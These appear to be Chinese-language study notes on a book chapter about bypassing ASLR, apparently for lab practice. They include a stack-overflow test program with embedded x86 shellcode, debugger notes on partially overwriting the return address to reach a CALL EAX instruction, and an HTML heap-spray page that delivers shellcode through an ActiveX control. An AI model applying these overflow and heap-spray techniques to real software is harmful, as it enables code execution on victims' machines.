 # notes about chapter13
## from 13.2 攻击未启用 ASLR 的模块
## from 13.3 利用部分覆盖进行定位内存地址
codes:

```C++
#include<string.h>
#include"stdlib.h" 
char shellcode[]=
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"//168

"\x90\x90\x90\x90\x90\x90\x90\x90"//176
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90"//256
"\x90\x90\x90\x90"

"\x90\x90"
;
char * test()
{
	char tt[256]; 
	memcpy(tt,shellcode,262); 

	_asm int 3;
	return tt;
}
int main()
{
	char temp[200]; 
	test();
	return 0;
}

```

覆盖完成后：

eax->shellcode起始地址：

![](./dbg1.JPG)

由于aslr只是让基址进行了随机化，所以可以用off by one的思路将地址的后两个字节覆盖，从而运行在随机化的基址基础上的偏移的指令，此时覆盖了最后两个字节：

![](./dbg2.JPG)

所以只要在能覆盖的地址范围内找到类似jmp eax的指令即可。

找到的指令：  
```
Log data, 条目 742
 地址=000A141C
 消息=Found  CALL EAX at 0xa141c     Module:  C:\Users\admin\Desktop\0day\exp398\Release\exp398.exe

```

使用第一个"\x1C\x14"即可。

![](./success1.JPG)

## 13.4  利用 Heap spray 技术定位内存地址
```html
<html>
	<body>

		<script>
		var nops = unescape("%u9090%u9090");
		var shellcode=
	"\u68fc\u0a6a\u1e38\u6368\ud189\u684f\u7432\u0c91\uf48b\u7e8d\u33f4\ub7db\u2b04\u66e3\u33bb\u5332\u7568\u6573\u5472\ud233\u8b64\u305a\u4b8b\u8b0c\u1c49\u098b\u698b\uad08\u6a3d\u380a\u751e\u9505\u57ff\u95f8\u8b60\u3c45\u4c8b\u7805\ucd03\u598b\u0320\u33dd\u47ff\u348b\u03bb\u99f5\ube0f\u3a06\u74c4\uc108\u07ca\ud003\ueb46\u3bf1\u2454\u751c\u8be4\u2459\udd03\u8b66\u7b3c\u598b\u031c\u03dd\ubb2c\u5f95\u57ab\u3d61\u0a6a\u1e38\ua975\udb33\u6853\u6577\u7473\u6668\u6961\u8b6c\u53c4\u5050\uff53\ufc57\uff53\uf857";

		while (nops.length < 0x100000)
			nops += nops;
		nops=nops.substring(0,0x100000/2-32/2-4/2-2/2-shellcode.length); nops=nops+shellcode;
		var memory = new Array(); 
		for (var i=0;i<200;i++)
			memory[i] += nops;
		</script>

		<object classid="clsid:DA30E427-9F4A-4353-A2D8-178BC2EEE6EC" id="test"> </object>

		<script>
		var s = "\u9090";
		while (s.length < 54) { s += "\u9090";
		} 
		s+="\u0C0C\u0C0C";
		test.test(s);
		</script>

	</body>
</html>
```

## 13.5  利用 Java applet heap spray 技术定位内存地址

## 13.6 为 .NET 控件禁用ASLR